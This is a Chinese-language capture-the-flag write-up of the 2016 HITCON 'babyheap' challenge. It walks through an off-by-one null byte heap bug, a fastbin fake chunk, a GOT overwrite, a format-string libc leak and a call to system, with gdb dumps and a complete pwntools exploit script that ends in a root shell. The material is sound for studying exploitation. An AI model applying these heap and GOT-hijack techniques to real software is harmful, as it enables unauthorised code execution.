 ```yaml
---
title: 2016 HITCON CTF babyheap
date: 2017-04-11 04:29:13
tags:
- ctf
- off-by-one
- got_overwrite
categories:
- ctf_practice
---
```


## Vulnerability
首先基本逆向一下，得到一个结构体：
```c
struct note
{
	int size;
	char name[8];
 	char *content;
}
```
<!-- more -->
这题跟上次做的car-market有点相似之处，在读入name时存在off-by-one null byte的漏洞，可以把content指针的最低字节覆盖为\x00。只不过这题限制有点多，edit，delete只能操作一次，new能操作两次。
```shell
gdb-peda$ x/32gx 0x00603000
0x603000:	0x0000000000000000	0x0000000000000021
0x603010:	0x0000000000000010	0x0a62626262626262
0x603020:	0x0000000000603000	0x0000000000000021
0x603030:	0x0000000a61616161	0x0000000000000000
0x603040:	0x0000000000000000	0x0000000000020fc1
0x603050:	0x0000000000000000	0x0000000000000000
```
如果没有提醒的话根本就不知道从哪入手，可能会在ubuntu14.04上运行这个程序，到最后看不出一点端倪。
```shell
Hint
We are STRONGLY recommend that you try this challenge in 16.04 (or with the attached libc)
```
问题就在选项4的exit中，当调用\__isoc99_scanf("%2s", &v4)时，在Ubuntu16.04中会分配0x410大小(随输入内容变化)的堆块(在常规heap区域，不在mapped区域，Ubuntu14.04会在mapped区域)来存储输入字符。
```shell
gdb-peda$ x/32gx 0x603010
0x603010:	0x6161616161616e6e	0x000000000000000a
0x603020:	0x0000000000000000	0x0000000000000000
0x603030:	0x0000000000000000	0x0000000000000000
0x603040:	0x0000000000000000	0x0000000000000000
......
```
这时候我们调用一次new，且触发off-by-one漏洞。然后delete的话glibc会把位于0x6033f0的chunk加入fastbin(我们可以伪造合适大小到可以覆盖content指针)。然后再new一次，0x603410的chunk会分配给note，然后我们指定size大小为0x50，这是glibc会把0x6033f处的chunk分配来储存content内容。然后我们可以覆盖content指针，最后edit来达到任意地址写。
```shell
gdb-peda$ x/32gx 0x00603400-0x10
0x6033f0:	0x0000000000000000	0x0000000000000061
0x603400:	0x0000000000000000	0x0000000000000000
0x603410:	0x0000000000000000	0x0000000000000021
0x603420:	0x0000000000000010	0x0a62626262626262
0x603430:	0x0000000000603400	0x0000000000000021
0x603440:	0x000a616161616161	0x0000000000000000
0x603450:	0x0000000000000000	0x0000000000020bb1
0x603460:	0x0000000000000000	0x0000000000000000
```
可问题是edit函数只能调用一次~！可以overwrite got表的内容。把那啥_exit的got表地址改为alarm@plt，这样edit就可以调用多次了。

## Exploit
重写got表的目的是泄露libc地址和替换某些函数的got表地址为system的地址，怎么用就得靠自己经验了。我结合自己的理解把利用思路梳理了一下。

### Steps
1. exit，在堆尾伪造size字段；
2. new，触发off-by-one覆盖content指针最后一字节为\x00；
3. delete，把fake chunk加入fastbin；
4. new，取回fake chunk，把content指针覆盖为_exit@got的地址；
5. edit，rewrite got表内容。这时候需要注意的是，有的函数got表内容不能改，否则会影响程序运行。首先_exit@got改为alarm@plt，然后把atoi@got改为printf@plt，这样下次在输入的时候我们可以通过格式化字符串漏洞泄露libc的地址。
6. edit，然后把atoi@got覆盖为system的地址，最后发送'sh'即可。这一步需要特别注意的一点是，因为atoi@got被修改为printf@plt，所以当你发送'3\n'时，实际上是选中了选项'2'从而调用delete——因为printf("3\n")的返回值是2。所以这时你应该发送'3 \n'，只要让printf的返回值是3即可。

### Script
```python
from pwn import *

debug = 1
if debug:
	#context.log_level = "debug"
	p = process('./babyheap')
else:
	pass

def new(size, content, name):
	p.recvuntil("Your choice:")
	p.sendline("1")
	p.recvuntil("Size :")
	p.sendline(str(size))
	p.recvuntil("Content:")
	p.send(content)
	p.recvuntil("Name:")
	p.send(name)

def edit(content):
	p.recvuntil("Your choice:")
	p.sendline("3")
	p.recvuntil("Content:")
	p.send(content)

def delete():
	p.recvuntil("Your choice:")
	p.sendline("2")

def exit(content):
	p.recvuntil("Your choice:")
	p.sendline("4")
	p.recvuntil("Really? (Y/n)")
	p.sendline(content)

exit_got = 0x602020
alarm_plt = 0x400790
free_got = 0x602018
printf_plt = 0x400780
atoi_got = 0x602078
read_chk_plt = 0x400750
puts_plt = 0x400760
read_plt = 0x4007A0

free_off = 0x83940
system_off = 0x45390

payload1 = 'nn' + "\x00" * (0x1000 - 0x18 - 2) + p64(0x61)
exit(payload1)
#raw_input("go")
content1 = 'a' * 16
name1 = 'b' * 8
new(16, content1, name1)
delete()

got_payload  = p64(alarm_plt)             # _exit
got_payload += p64(read_chk_plt + 6)     # __read_chk
got_payload += p64(puts_plt + 6)         # puts
got_payload += p64(0xdeadbeef)
got_payload += p64(printf_plt + 6)   # printf
got_payload += p64(alarm_plt + 6)    # alarm
got_payload += p64(read_plt + 6)     # read
got_payload += p64(0xdeadbeef)
got_payload += p64(0xdeadbeef)
got_payload += p64(0xdeadbeef)
got_payload += p64(0xdeadbeef)
got_payload += p64(printf_plt)     # atoi

content2 = "\x00" * 0x20 
content2 += p64(len(got_payload))  #size
content2 += p64(0)                #name
content2 += p64(exit_got)       #content

new(0x50, content2, 'aaaa')
#raw_input("go")

edit(got_payload)
#raw_input("go")

p.recvuntil("Your choice:")
p.send("%9$saaaa" + p64(free_got))

free_addr = u64(p.recv(6).ljust(8, "\x00"))
libc_addr = free_addr - free_off
system_addr = libc_addr + system_off

print "free_addr: " + hex(free_addr)
print "system_addr: " + hex(system_addr)

got_payload = got_payload[:-8]
got_payload += p64(system_addr)
raw_input("go")

p.recvuntil("Your choice:")
p.send("333")
p.recvline()
p.send(got_payload)

p.recvuntil("Your choice:")
p.sendline('/bin/sh')
p.interactive()
```
最终我们可以得到一个shell。
```shell
root@w0lfzhang666:/home/w0lfzhang/Desktop# python babyheap.py 
[+] Starting local process './babyheap': pid 42608
free_addr: 0x7fbd9f1ba940
system_addr: 0x7fbd9f17c390
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
$  
```

## Reference
[Shift Crops](http://shift-crops.hatenablog.com/entry/2016/10/11/233559#Babyheap-Pwn-300)
